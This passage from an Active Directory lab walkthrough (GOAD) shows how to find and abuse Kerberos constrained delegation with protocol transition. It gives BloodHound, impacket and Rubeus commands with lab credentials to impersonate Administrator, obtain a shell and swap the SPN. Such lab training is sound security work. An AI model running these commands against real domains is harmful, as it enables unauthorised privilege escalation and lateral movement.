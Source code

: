 - Find constrained delegation with bloodhound :

```
MATCH p=(u)-[:AllowedToDelegate]->(c) RETURN p
```

![delegation_bh_constrain.png](/assets/blog/GOAD/delegation_bh_constrain.png)

> Remark : sharphound seems to not capture the constrained delegation without protocol transition in the lab

- Find all the constrained delegation with impacket :

```bash
findDelegation.py NORTH.SEVENKINGDOMS.LOCAL/arya.stark:Needle -target-domain north.sevenkingdoms.local
```

![deleg_find_delegation.png](/assets/blog/GOAD/deleg_find_delegation.png)


### With protocol transition

![delegation_windows_constrained_user_any.png](/assets/blog/GOAD/delegation_windows_constrained_user_any.png)

- To abuse the constrained delegation with protocol transition, the concept is to first ask a TGT for the user and execute S4U2Self followed by a S4U2Proxy to impersonate an admin user to the SPN on the target.

- From windows with Rubeus:

```powershell
.\Rubeus.exe asktgt /user:jon.snow /domain:north.sevenkingdoms.local /rc4:B8D76E56E9DAC90539AFF05E3CCB1755
.\Rubeus.exe s4u /ticket:put_the__previous_ticket_here /impersonateuser:administrator /msdsspn:CIFS/winterfell /ptt
```

- From linux with impacket:

```bash
getST.py -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```

- And next we can use the TGS to connect to smb and get a shell with psexec, smbexec, wmiexec, ...

![delegation_constrained_any_linux.png](/assets/blog/GOAD/delegation_constrained_any_linux.png)

> A good thing to know is that the SPN part is not encrypted in the request, so you can change it to the one you want with the following options :
> - on rubeus : /altservice
> - on impacket : -altservice
{: .prompt-tip }


> SPN lists
> Carlos Polop (hacktricks), give a us a useful list of the common SPN and usage on his [silver ticket page](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#available-services)
{: .prompt-info }
